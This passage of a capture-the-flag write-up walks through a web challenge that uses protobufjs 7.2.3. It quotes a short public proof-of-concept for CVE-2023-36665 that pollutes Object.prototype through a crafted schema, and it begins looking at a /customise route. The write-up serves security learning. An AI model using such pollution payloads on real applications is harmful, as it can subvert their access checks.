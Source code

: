 ```json
    "puppeteer": "21.5.2"
  }
}
```

Ohh! It's **version `7.2.3`**, which is vulnerable to **Prototype Pollution**!

**In the [blog post](https://www.code-intelligence.com/blog/cve-protobufjs-prototype-pollution-cve-2023-36665#vulnerability-description), it has a vulnerable code example:**
```javascript
const protobuf = require("protobufjs");  
protobuf.parse('option(a).constructor.prototype.verified = true;');  
console.log({}.verified);
// returns true
```

**When the Protocol Buffers schema is controllable by the user**, we can pollute the `verified` object attribute to boolean value `true`.

> Prototype Pollution (PP) is a vulnerability that enables an attacker to add arbitrary attributes to global object prototypes.
> 
> When an attribute is polluted, the entire `Object.prototype` has the polluted attribute and its value instead of `undefined`.

Uhh... Wait, in our case, **is the Protocol Buffers schema is controllable by us??**

**`src/index.js`, GET method route `/customise`:**
```javascript
[...]
app.get('/customise', (req, res) => {
  return res.render('customise');
});
[...]
```

Umm... There's a route that we didn't explore before, let's go to there:

![](https://github.com/siunam321/CTF-Writeups/blob/main/bi0sCTF-2024/images/Pasted%20image%2020240226112815.png)

In here, it looks like we can customize the note's settings?

Let's select "Title" and click the "Customize" button:
